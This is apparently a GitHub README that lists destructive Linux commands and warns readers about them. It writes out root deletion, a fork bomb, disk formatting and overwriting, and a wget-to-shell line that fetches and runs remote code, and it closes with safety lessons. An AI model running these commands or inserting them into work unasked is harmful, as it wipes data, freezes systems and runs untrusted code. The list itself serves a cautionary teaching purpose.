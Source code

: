 :bomb: Suicide Linux
=====================

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Daniele Olmisani, 2017-2025

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## :warning: Warning!! :warning:
> Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.

![penguin](linux-small.png)

#### :one: Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### :two: Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.

More simple, but same effects:

`perl -e 'fork while true;'`


#### :three: Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### :four: Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### :five: Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### :six: Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### :seven: Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### :eight: No More Busy

`find / -name busybox -exec rm -f {} \;`

#### :nine: Kernel, Don't Panic

`cat /dev/port`

The simplest way to freeze your system.


## :pencil: Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content
* there should be a good reason if your administrator password is requested 


## :books: References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
